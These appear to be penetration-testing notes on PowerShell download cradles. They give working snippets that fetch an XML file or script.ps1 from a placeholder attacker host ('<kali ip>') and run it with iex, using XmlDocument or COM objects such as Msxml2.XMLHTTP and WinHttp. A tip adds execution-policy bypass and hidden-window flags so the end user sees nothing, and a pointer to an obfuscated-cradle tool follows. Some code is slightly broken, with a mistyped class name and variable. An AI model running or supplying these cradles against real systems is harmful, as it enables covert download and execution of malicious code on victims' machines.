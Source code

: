 once our xml file is hosted
```powershell

$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://<kali ip>/file.xml")
iex $xmldoc.command.a.execute

```

#### COM Objects
some available
```powershell

Msxml2.XMLHTTP
Microsoft.XMLHTTP
InternetExplorer.Application
Excel.Application
Word.Application
MsXml2.ServerXmlHttp
WinHttp.WinHttpRequest.5.1 (Not Proxy Aware)
```

> it works the same but the New-Object, with **-ComObject** parameter

```powershell

$downloader = New-Object -ComObject Msxml12.XMLHTTP
$downloader.open("GET", "http://<kali ip>/script.ps1", $false)
$download.send()
iex $downloader.responseText
```

- We can do the same with WinHttp.WinHttpRequest.5.1 object as well (in the first line)

```powershell

$downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
```

> Tip [+]
We can use all these commands as one liners, by using a semicolon (;) to break ip the commands
We can save as script too and execute with **powershell.exe .\script.ps1** 
Make sure to include -ExecutionPolicy (-ep) and -Window Hidden (-W h)
This will ensure we can run our scripts and that the powershell window stays hidden from the end-user

```powershell
powershell.exe -ExecutionPolicy bypass -Window hidden .\downloader.ps1
```

> [ extra ]
A great tool to craft obfuscated download cradles:

```powershell
Invoke-CradleCrafter = https://github.com/danielbohannon/Invoke-CradleCrafter
```

